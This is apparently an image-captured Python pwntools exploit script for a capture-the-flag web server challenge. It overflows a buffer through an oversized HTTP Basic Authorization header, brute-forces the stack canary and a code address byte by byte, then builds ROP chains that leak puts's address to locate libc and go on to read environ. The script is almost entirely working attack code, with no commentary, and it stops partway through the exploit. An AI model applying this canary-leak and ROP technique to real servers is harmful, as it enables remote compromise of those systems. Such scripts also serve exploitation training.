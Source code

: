```python
baseSize = (280-12-16)
def genPayload(payload):
    base = b"admin:admin\x00" + b"a" * baseSize
    return b"""GET / HTTP/1.1\r
    Connection: keep-alive\r
    Authorization: Basic """ + base64.b64encode(base + payload) +b"\r\n\r\n"

def genPayloadf(payload):
    base = b"adsin:acmin\x00" + b"a" * baseSize
    return b"""GET / HTTP/1.1\r
    Connection: keep-alive\r
    Authorization: Basic """ + base64.b64encode(base + payload) +b"\r\n\r\n"


def leak64(prefix = b""):
    cookie = [0] * 8
    for i in range(8):
        for x in range(0, 256):
            cookie[i] = p8(x)
            cur = b"".join(cookie[:i+1])
            print(cur)
            io.send(genPayload(prefix + cur))

            r = io.recvuntil(b"\r\n\r\n", timeout=0.18)
            if r != b"":
                c = io.recvuntil(b"flag.", timeout=0.18)
                if c == b"":
                    continue
                break
    return(u64(b"".join(cookie)))

io = start()

if args.REM:
    cookie = leak64()
    rbp = 0
    workerAddr = leak64(p64(cookie) + p64(rbp)) - 191
else:
    cookie = p64(0)#leak64()
    rbp = 0
    workerAddr = 0x5555555567df#leak64(p64(cookie) + p64(rbp)) - 191

exe.address = workerAddr - exe.symbols["worker"]

if not args.GDB:
    rop = ROP(exe)
    rop.raw(cookie)
    rop.raw(rbp)
    rop.puts(exe.got["puts"])
    io.send(genPayload(rop.chain()))
    putsAddr = io.recvline()[:-1]
    putsAddr += b"\x00" * (8-len(putsAddr))
    putsAddr = u64(putsAddr)
    print(hex(putsAddr))

    libc = ELF("./libc.so.6")
    libc.address = putsAddr - libc.symbols["puts"]

    rop = ROP(exe)
    rop.raw(cookie)
    rop.raw(rbp)
    rop.puts(libc.symbols["environ"])
    io.send(genPayload(rop.chain()))
```